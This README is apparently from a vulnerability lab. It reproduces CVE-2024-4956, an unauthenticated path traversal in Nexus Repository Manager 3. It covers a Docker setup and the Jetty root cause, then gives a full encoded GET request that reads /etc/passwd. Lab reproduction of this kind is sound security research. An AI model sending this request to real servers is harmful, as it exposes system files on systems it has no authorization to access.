 # Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)

[中文版本（Chinese version）](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

A path traversal vulnerability has been discovered in Nexus Repository 3 before version 3.68.1, the vulnerability allows for an attacker to craft a URL to return any file as a download, including system files outside of Nexus Repository application scope, without any authentication.

References:

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.68.0:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus.

## Exploit

Just like SpringMVC CVE-2018-1271 from Orange Tsai's [share](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf), Jetty's `URIUtil.canonicalPath()` also treats the empty string as a directory which is the root case of this vulnerability:

![](1.png)

Simply send following request to reproduce the issue:

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

As you can see, `/etc/passwd` has been exposed directly:

![](2.png)
